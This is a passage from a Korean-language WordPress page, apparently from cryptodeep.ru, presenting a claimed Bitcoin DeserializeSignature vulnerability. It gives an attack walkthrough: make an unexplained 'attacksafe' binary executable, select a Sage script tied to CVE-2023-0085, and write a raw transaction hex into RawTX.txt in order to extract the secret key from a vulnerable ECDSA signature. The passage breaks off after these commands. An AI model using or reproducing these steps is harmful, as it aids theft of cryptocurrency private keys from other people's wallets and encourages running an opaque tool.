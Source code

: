<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-28-1024x750.png" alt="비트코인 네트워크의 DeserializeSignature 취약성: 암호화 분석, 결과 및 잘못된 ECDSA 서명 생성 가능성" class="wp-image-5234"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-29-1024x771.png" alt="비트코인 네트워크의 DeserializeSignature 취약성: 암호화 분석, 결과 및 잘못된 ECDSA 서명 생성 가능성" class="wp-image-5237"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading">액세스 권한:</h2>



<pre class="wp-block-code"><code><strong>!chmod +x attacksafe</strong></code></pre>



<pre class="wp-block-code"><code><strong>ls -l</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-30-1024x436.png" alt="비트코인 네트워크의 DeserializeSignature 취약성: 암호화 분석, 결과 및 잘못된 ECDSA 서명 생성 가능성" class="wp-image-5239"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading">애플리케이션:</h2>



<p>선택하자<code><strong>deserialization_error_vulnerability_cve-2023-0085.sage</strong></code></p>



<p><strong>취약한 ECDSA</strong>&nbsp;서명 트랜잭션 에서 비밀 키를 얻으려면&nbsp;데이터를 텍스트 문서에 추가 하고&nbsp;이를 위해&nbsp;&nbsp;<strong><code>RawTX</code>&nbsp;</strong>파일로 저장합니다.<code><strong>RawTX.txt</strong></code><code>echo</code></p>



<blockquote class="wp-block-quote">
<p><em><strong>다음 명령을 실행해 보겠습니다.</strong></em></p>
</blockquote>



<pre class="wp-block-code"><code><strong>!echo '01000000010dbc696374c8d7ca61f32710e03aaedcb7a4f2428074814d0e1f4f7f5c1e5935000000008b483045022100b44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307022074e5feb333400732256fc44a681a1ba262b080a7cc5dfa11894e7ce4d9766c6f0141045cf7dd1ad49af6957415d6b76ff39cbf78f6e72f1db9199a01127687e7230f96614ff6f0184d2191fa7428872e311fe4ddf2b91f560b30fd7dc01d2118ac0b5bffffffff01d2040000000000001976a914d74b32dfa340da479ce64aaf5e326496eb3995f188ac00000000' &gt; RawTX.txt
!cat RawTX.txt</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-32-1024x261.png" alt="비트코인 네트워크의 DeserializeSignature 취약성: 암호화 분석, 결과 및 잘못된 ECDSA 서명 생성 가능성" class="wp-image-5241"/></figure>
